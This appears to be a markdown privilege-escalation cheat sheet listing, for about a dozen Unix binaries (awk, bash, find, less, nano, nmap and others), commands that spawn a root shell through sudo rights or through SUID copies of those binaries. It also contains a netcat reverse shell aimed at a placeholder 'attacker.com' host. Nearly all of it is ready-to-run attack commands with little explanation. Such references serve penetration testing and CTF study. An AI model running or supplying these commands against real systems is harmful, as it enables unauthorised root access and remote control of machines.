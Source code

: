 # NMAP



# AWK
### SUDO
```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### SUID
```
sudo sh -c 'cp $(which awk) .; chmod +s ./awk'

./awk 'BEGIN {system("/bin/sh")}'

```

# BASH
### SUDO
```
sudo bash
```
### SUID
```
sudo sh -c 'cp $(which bash) .; chmod +s ./bash'

./bash -p
```
# ENV
### SUDO
```
sudo env /bin/sh
```
### SUID
```
sudo sh -c 'cp $(which env) .; chmod +s ./env'

./env /bin/sh -p
```
# FIND
### SUDO
```
sudo find . -exec /bin/sh \; -quit
```
### SUID
```
sudo sh -c 'cp $(which find) .; chmod +s ./find'

./find . -exec /bin/sh -p \; -quit
```
# FTP
### SUDO
```
sudo ftp
!/bin/sh
```
# LESS
### SUDO
```
sudo less /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which less) .; chmod +s ./less'

./less file_to_read
```
# MAN
### SUDO
```
sudo man man
!/bin/sh
```
# MORE
### SUDO
```
TERM= sudo -E more /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which more) .; chmod +s ./more'

./more file_to_read
```

# NANO
### SUDO
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
### SUID
```
sudo sh -c 'cp $(which nano) .; chmod +s ./nano'

./nano
^R^X
reset; sh 1>&0 2>&0
```
# NC
### SUDO
```
# Run nc -l -p 12345 on the attacker box to receive the shell. This only works with netcat traditional.

RHOST=attacker.com
RPORT=12345
sudo nc -e /bin/sh $RHOST $RPORT
```

# NMAP
### SUDO
```
#   Input echo is disabled.

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

#   The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

sudo nmap --interactive
nmap> !sh
```
